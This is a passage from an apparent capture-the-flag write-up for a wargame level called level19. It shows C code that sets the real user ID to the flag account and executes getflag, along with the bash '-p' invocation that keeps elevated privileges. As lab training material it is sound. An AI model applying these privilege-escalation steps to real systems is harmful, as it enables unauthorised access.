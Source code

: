 Here, the process is forked, and while the child process waits 1 second before starting the `flag19` binary, the parent process exits.

However, we now cannot directly run `./exploit -c getflag`, because the effective user is set to `flag19` but the real user is still `level19` so we have to code a second program (that we call `execute_getflag`), used to elevate the real UID:

```c
#define _GNU_SOURCE
#include <unistd.h>

int main(int argc, char **argv, char ** envp)
{
	setresuid(980, 980, 980);
	execve("/bin/getflag", argv, envp);	
}
```

Note that we can use `id flag19` to get its UID.

One last thing is that bash will reset the effective user ID if it's not equal to the real user ID. We can disable this behavior using the option `-p`.

We then launch our exploit using `./exploit -p -c /home/level19/execute_getflag`.